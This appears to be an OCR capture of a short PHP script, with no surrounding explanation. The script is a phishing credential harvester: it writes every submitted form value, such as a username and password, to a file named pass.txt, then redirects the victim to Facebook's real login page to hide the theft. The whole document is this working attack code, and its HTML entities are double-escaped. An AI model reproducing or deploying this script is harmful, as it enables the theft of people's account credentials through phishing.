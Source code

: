 # text
&amp;lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&amp;gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&amp;gt;
